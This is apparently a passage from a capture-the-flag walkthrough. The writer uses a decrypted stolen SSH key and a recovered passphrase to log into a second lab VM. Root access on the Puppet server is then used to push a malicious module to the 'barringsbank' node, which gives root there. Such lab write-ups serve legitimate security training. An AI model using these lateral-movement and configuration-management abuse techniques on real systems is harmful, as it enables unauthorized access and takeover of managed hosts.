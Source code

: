 I extracted the private key and used it to SSH to the other VM as nleeson. It asked for a passphrase, and I used *joshua* from the file:

```
gpg nleeson_key.gpg > nleeson_key
chmod 600 nleeson
# ssh -i nleeson nleeson@192.168.122.3
Enter passphrase for key 'nleeson':
Welcome to Ubuntu 14.04.3 LTS (GNU/Linux 4.4.0-57-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

 System information disabled due to load higher than 1.0


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

nleeson@barringsbank:~$
```

## Rooting barringsbank

Inside nleeson's home there's nothing interesting. I found another reticulatingsplines picture like in eric's home. There wasn't anything exploitable around, but we know that Puppet is pushing configuration changes from the puppet VM. With my root privileges in that VM, I edited the **nodes.pp** and **site.pp** files in <code>/etc/puppet/manifests</code> to include the wiggle module on barringsbank as well:

```
node 'barringsbank.example.com' inherits 'default' {
  include wiggle
  }
```

If you're wondering how long you have to wait for Puppet changes to propagate over the nodes, there's a cron job that runs every 10 minutes:

```
# Puppet Name: puppet check in
*/10 * * * * /usr/bin/puppet agent --test > /dev/null 2>&1
```

Nothing's stopping us from running the agent though. Whichever way you choose, the spin binary will now appear in /tmp on barringsbank, and that's another root:

Inside /root there's an image owned by nleeson that I transferred all the way back to my machine:

```
-rw-rw-r--  1 nleeson nleeson 215K Dec 21  2016 me.jpeg
```
